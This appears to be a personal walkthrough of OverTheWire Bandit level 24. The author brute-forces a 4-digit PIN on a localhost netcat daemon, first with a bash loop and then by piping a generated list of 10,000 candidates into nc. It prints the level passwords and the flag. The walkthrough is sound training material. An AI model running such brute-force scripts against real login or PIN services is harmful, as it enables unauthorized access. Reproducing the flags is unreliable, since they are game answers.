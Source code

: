 # Bandit 24

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Moved this into an independent file due to its scale compared to others.

I started by sshing into the level, providing the password I got from the previous level.

Based of the description, I knew I had to check port 30002. so I run `nc localhost 30002` and get back:
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
Well the password we already know, but a secret pincode... Nope. Inputting something random like 1234 returns:
```bash
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234
Wrong! Please enter the correct pincode. Try again.
```

Okay, so the next step is understanding how to get that pin code. It is a 4-digit pincode, with 10000 combinations. So we have a range of 0000 to 9999. We could manually go through each one, wouldn't that be fun? But I am lazy, and would rather solve this quickly. Knowing a bit about bash scripting, I can utilise a for loop. I go into /tmp/ and create a new folder to work this problem out.
```bash
bandit24@bandit:~$ mkdir /tmp/solutions
bandit24@bandit:~$ cd /tmp/solutions
bandit24@bandit:/tmp/solutions$ touch script.sh
bandit24@bandit:/tmp/solutions$ ls
script.sh
```

Now, within `script.sh` I write:
```bash
#!/bin/bash

for i in {0000..9999}
do
	echo  $i
done
```

Adding executable permissions with `chmod +x ./script.sh` so I can run it and go.

As you'd expect, all 10000 numbers get printed to me. Amazing! Now I got to figure out how I can put these numbers, with the password, inside netcat. Through research, and common sense, we can pipe the number into netcat, thus having us provide the input and make the connection to port 30002 at once. I modify my code like so:
```bash
#!/bin/bash

pass24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in {0000..9999}
do
	echo "$pass24 $i" | nc localhost 30002
done
```

My thinking here is that it will now loop over, 10000 times, creating new netcat connections until we finally have the correct match. The result?

```bash
bandit24@bandit:/tmp/solutions$ ./script.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

Great, it's looping. However, it's looping through each number at around 15 seconds. Yep. Let's say our secret pincode is 6666. It would take the program 99990 seconds to finally get there (if the computer doesn't start slowing down due to all the netcat connections), which is around 28 hours. Yep, I am lazy. I don't have that long. As I finish writing this, the console just printed out the wrong command for the 12th time. Just 9988 more possible combinations to go.

There must be a better solution. Pen testers and hackers can't possibly take that long! This is a basic brute force attack! Obviously, there is. Reading online, I read about something called bash file redirection. Something that I've already kinda done. Whether I'm echoing "node_modules/" >> .gitignore or I'm adding a title to a README, I have done it already. However, this was something else.

Essentially what we can do is loop over every single one of those numbers, pair them with the password, and save all the combinations into a text document. Then, we use file redirection and feed the text document into the netcat. If successful, it should be much, MUCH, faster. So I gave it a go.

I modified the script that we had before:
```bash
#!/bin/bash

pass24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in {0000..9999}
do
	echo $pass24 $i >> passlist.txt
done
```

This will loop over and append to the passlist file.

Then all I had to do was feed the file to the connection:
```bash
nc localhost 30002 < passlist.txt
```

Result?
```bash
# Hundreds of lines omitted
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

It roughly took 8 seconds. Wow! So easy, and simple. This really shows me that it's not difficult at all cracking a 4 digit passcode. And although the challenge has it pair the passcode with a password, if a hacker knows just a password, then that's all they need to potentially get into your system.

So we got the flag for bandit25. Had to do a lot of research on this, but really enjoyed this level. The only issue I have with this method is that it doesn't show you what the passcode was. Looking through other people's discussions, I roughly added to this by:

```bash
nc localhost 30002 < passlist.txt > list_of_wrongs.txt
```
After a few seconds, this creates a `list_of_wrongs.txt` file with all the "Wrong!" messages. I open it up in vim, set line count with `:set number`, go all the way down, ditch a few of the last numbers, and was able to get it.

```bash
bandit24@bandit:/tmp/solution2$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2263" | netcat localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

Not a good solution, but definitely a solution for the end of the day. Looking forward to the next challenge.


#### Flag:
**uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**